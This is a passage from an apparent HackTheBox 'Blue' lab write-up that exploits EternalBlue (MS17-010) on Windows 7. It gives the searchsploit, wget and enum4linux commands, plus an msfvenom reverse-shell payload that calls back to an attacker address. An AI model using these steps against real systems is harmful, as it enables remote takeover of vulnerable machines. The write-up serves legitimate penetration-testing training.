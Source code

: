 We’re working with Windows 7 so we’ll use exploit # 42315. Clone the exploit into the working directory.

```bash
searchsploit -m 42315                                                                                                                                 1 ⚙
  Exploit: Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)
      URL: https://www.exploit-db.com/exploits/42315
     Path: /usr/share/exploitdb/exploits/windows/remote/42315.py
File Type: Python script, ASCII text executable

Copied to: /home/kali/Documents/CTF/HackTheBox/Machine/Windows/Easy/Blue/42315.py
```

After looking at the source code, we need to do three things:

1. Download mysmb.py since the exploit imports it. The download location is included in the exploit.
2. Use MSFvenom to create a reverse shell payload (allowed on the OSCP as long as you’re not using meterpreter).
3. Make changes in the exploit to add the authentication credentials and the reverse shell payload.

First, download the file and rename it to mysmb.py

```bash
wget https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py
mv 42315.py.1 mysmb.py
```

Second, use MSFvenom to generate a simple executable with a reverse shell payload.

```bash
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.14 LPORT=4242 > eternal-blue.exe
```

Third, we need change the exploit to add credentials. In our case we don’t have valid credentials, however, let’s check to see if guest login is allowed.

If you run enum4linux, you can see that guest login is supported.

```bash
enum4linux -a 10.129.252.111                                                                                                                    130 ⨯ 1 ⚙
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Nov  4 23:34:41 2021

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.129.252.111
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
```
